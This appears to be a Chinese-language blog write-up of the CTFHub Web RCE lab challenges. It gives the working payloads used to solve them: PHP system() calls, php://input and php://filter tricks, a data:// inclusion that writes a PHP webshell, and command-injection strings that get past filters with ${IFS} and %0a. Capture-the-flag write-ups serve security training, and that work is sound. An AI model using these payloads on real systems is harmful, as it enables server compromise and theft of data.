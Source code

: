 ```yaml
---
layout: post
title: CTFHub Web RCE
subtitle: CTFHub Web RCE
date: 2023-07-02 17:13
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - CTFHub
published: true
number headings: first-level 2, max 4, 1.1., auto
---
```

## 1. RCE

### 1.1. eval 执行

![image](https://img.ghostliner.top/HxrYS3.png)

传入 cmd 参数

```php
system("ls -lR / | grep flag");
```

![image](https://img.ghostliner.top/qNEyyj.png)

```php
system("find / -name flag_14104");
```

![image](https://img.ghostliner.top/9C8iWe.png)

```php
system("cat /flag_14104");
```

`ctfhub{d3eaaa2187eddb495ba02f6e}`

### 1.2. 文件包含

![image](https://img.ghostliner.top/jmFpp4.png)

分析代码，GET 传 file 参数不能有“flag”字符，自带 shell.txt 文件

```uri
http://challenge-78e9fffaec2d5817.sandbox.ctfhub.com:10800/?file=shell.txt
```

蚁剑连接

![image](https://img.ghostliner.top/xZi4Lq.png)

### 1.3. php://input

![image](https://img.ghostliner.top/VxOlc8.png)

![image](https://img.ghostliner.top/AuRO1e.png)

成功

```php
a=<?php system("ls /");?>
a=<?php system("cat /flag_21991");?>
```

![image](https://img.ghostliner.top/21aV0j.png)

### 1.4. 远程包含

![image](https://img.ghostliner.top/ry5rgQ.png)

```url
http://challenge-057c54b0b096a464.sandbox.ctfhub.com:10800/?file=data://,<?php fputs(fopen('shell.php','w'),'123<?php eval($_POST["code"]);?>');
```

成功

![image](https://img.ghostliner.top/EOIWV4.png)

### 1.5. 读取源代码

![image](https://img.ghostliner.top/XEYP2h.png)

分析：file 参数以 `php://` 开头，存在 `/flag` 文件

```url
http://challenge-a8afd380d641eed1.sandbox.ctfhub.com:10800/?file=php://filter/resource=/flag
```

![image](https://img.ghostliner.top/AjZYM4.png)

### 1.6. 命令注入

```shell
127.0.0.1|ls
```

![image](https://img.ghostliner.top/cKK2E9.png)

```shell
127.0.0.1|cat 262363244510708.php
```

![image](https://img.ghostliner.top/P6tAJ6.png)

### 1.7. 过滤 cat

**可以使用 tac、head、tail**

`127.0.0.1|ls`

![image](https://img.ghostliner.top/T8tX0v.png)

`127.0.0.1|head flag_42519488108.php`

![image](https://img.ghostliner.top/uMbovh.png)

### 1.8. 过滤空格

**可以使用 <、${IFS}**

`127.0.0.1|ls`

![image](https://img.ghostliner.top/rp3hlM.png)

```url
http://challenge-66d5d23f43cc02ba.sandbox.ctfhub.com:10800/?ip=127.0.0.1;cat<flag_35921562431926.php
```

![image](https://img.ghostliner.top/P1aFEZ.png)

### 1.9. 过滤目录分隔符

**多重命令执行，cd 到指定目录再 cat 内容**
![image](https://img.ghostliner.top/VT5WHH.png)

`127.0.0.1|cat flag_is_here` 无内容，`ls -l` 分析是目录

![image](https://img.ghostliner.top/Yic2Pf.png)

查看目录

![image](https://img.ghostliner.top/t1lY7K.png)

```url
http://challenge-ccfac5e714299f03.sandbox.ctfhub.com:10800/?ip=127.0.0.1;cd flag_is_here;cat flag_27471845213010.php
```

![image](https://img.ghostliner.top/17za4S.png)

### 1.10. 过滤运算符

![image](https://img.ghostliner.top/FXaBnm.png)

只过滤了 `|`、`&` ，未过滤 `;`

`127.0.0.1|ls`

![image](https://img.ghostliner.top/Jb0m05.png)

`127.0.0.1;cat flag_69852691721920.php`

![image](https://img.ghostliner.top/6ygJ0I.png)

### 1.11. 综合过滤练习

![image](https://img.ghostliner.top/sDdCQa.png)

过滤了 `|`、`&`、`;`、` `、`/`、`cat`、`flag`、`ctfhub`

```php
127.0.0.1%0als
```

![image](https://img.ghostliner.top/stGyCh.png)

```php
127.0.0.1%0als${IFS}-R # ${IFS}代替空格ls -R
```

![image](https://img.ghostliner.top/uUGqij.png)

```php
127.0.0.1%0amv${IFS}fla*${IFS}fff%0als${IFS}-R #将文件夹flag改名为fff
```

![image](https://img.ghostliner.top/ORtTf5.png)

![image](https://img.ghostliner.top/OtLqGW.png)

flag 文件无权限改名

```php
127.0.0.1%0acd${IFS}fff%0agrep${IFS}"ctf"${IFS}*.php #使用grep搜索*.php文件避开关键字
```

![image](https://img.ghostliner.top/QyhraO.png)
